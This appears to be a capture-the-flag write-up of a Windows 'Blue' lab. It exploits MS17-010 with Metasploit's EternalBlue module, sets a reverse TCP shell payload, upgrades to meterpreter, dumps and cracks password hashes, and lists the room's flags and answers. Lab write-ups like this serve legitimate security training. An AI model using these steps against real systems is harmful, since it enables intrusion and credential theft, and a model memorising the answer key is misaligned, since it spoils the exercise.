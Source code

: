 ## Blue


grayshader | 05 April

export IP=10.10.158.58

**Recon**

1. Scan the machine. 
```
   done
```
2. How many ports are open with a port number under 1000?
```
	3
```
3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
```
    ms17-010
```

**Gain Access**

1. start MSF
```
	done
```
2. Find the exploitation code we will run against the machine. What is the full path of the code?
```
	exploit/windows/smb/ms17_010_eternalblue 
```
3. Show options and set the one required value. What is the name of this value? (All caps for submission)
```
   RHOSTS
```
Enter the following command and press enter:
```
   set payload windows/x64/shell/reverse_tcp
```
**Escalate**

1. If you haven't already, background the previously gained shell (CTRL + Z). Research  online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
```
post/multi/manage/shell_to_meterpreter
```
2. Select this (use MODULE_PATH). Show options, what option are we required to change?
```
   session
```
3. Set the required option, you may need to list all of the sessions to find your target here. 
```
 sessions
```	
used process listing and migrated to lssas.exe

**Cracking**

1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
```
    jon
```
2. Copy this password hash to a file and research how to crack it. What is the cracked password?
```
	alqfna22
```

**Find flags!**

1. Flag1? This flag can be found at the system root. 

```
flag{access_the_machine}
```
2.Flag2? This flag can be found at the location where passwords are stored within Windows.


Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

```
  flag{sam_database_elevated_access}

```
3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
```
   flag{admin_documents_can_be_valuable}
``` 




